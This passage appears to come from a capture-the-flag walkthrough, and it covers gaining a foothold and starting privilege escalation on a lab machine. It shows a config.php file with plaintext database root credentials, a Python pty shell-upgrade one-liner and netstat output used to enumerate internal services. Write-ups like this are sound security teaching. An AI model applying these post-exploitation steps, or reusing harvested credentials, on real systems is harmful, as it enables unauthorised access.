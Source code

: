 ## Foothold Proof

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upon going back a directory, we find config.php

```
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>
```

#### Shell Upgrade

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

* The first thing that I do is grab the flag.
* After grabbing the user flag, I run netstat -tulnp to see what is running internally

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -   
```
